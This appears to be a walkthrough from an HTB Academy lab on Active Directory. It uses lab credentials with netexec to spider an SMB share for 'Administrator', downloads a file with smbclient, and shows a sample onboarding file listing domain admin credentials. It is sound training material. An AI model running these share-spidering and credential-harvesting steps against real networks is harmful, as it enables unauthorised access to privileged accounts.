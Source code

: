 **HTB Academy Methodology**:
```bash
# Step 1: Use discovered credentials (jbader:ILovePower333###) from Question 1
# Spider HR share specifically for Administrator pattern
netexec smb 10.129.234.173 -u jbader -p 'ILovePower333###' --spider HR --content --pattern "Administrator"

# Expected output:
# SMB    10.129.234.173  445    DC01    [+] inlanefreight.local\jbader:ILovePower333###
# SMB    10.129.234.173  445    DC01    //10.129.234.173/HR/Confidential/Onboarding_Docs_132.txt [pattern:'Administrator']

# Step 2: Connect to HR share using smbclient with discovered credentials
smbclient //10.129.232.180/HR -U jbader
# Password: ILovePower333###

# Step 3: Navigate to Confidential directory and download the file
# smb: \> cd Confidential
# smb: \Confidential\> get Onboarding_Docs_132.txt
# smb: \Confidential\> exit

# Step 4: Read file contents to extract Administrator password
cat Onboarding_Docs_132.txt
```

**Example File Contents** (Onboarding_Docs_132.txt):
```
========================================
Employee Onboarding Checklist
========================================

Name: Josh Bader  
Start Date: 2025-04-29  
Department: IT Infrastructure  
Manager: R. Lawson  
Title: Systems Engineer III  
Role Level: Tier-0 Admin  

Checklist:
[✔] AD Account Created  
[✔] Email Provisioned  
[✔] Assigned to Admin VPN Group  
[✔] Azure Admin Portal Access  
[✔] Exchange Online Admin  
[✔] Domain Admin Rights Applied  

Notes:
Jordan will be responsible for oversight of Active Directory replication, 
GPO management, and DC patching. Temporarily granted access to the domain 
administrator account for initial 90 days to complete infrastructure tasks 
related to the Chicago DC migration.

Account credentials
**Username:** Administrator  
**Password:** {Domain_Admin_Password}  

Note: Update account group membership after probationary period.
```
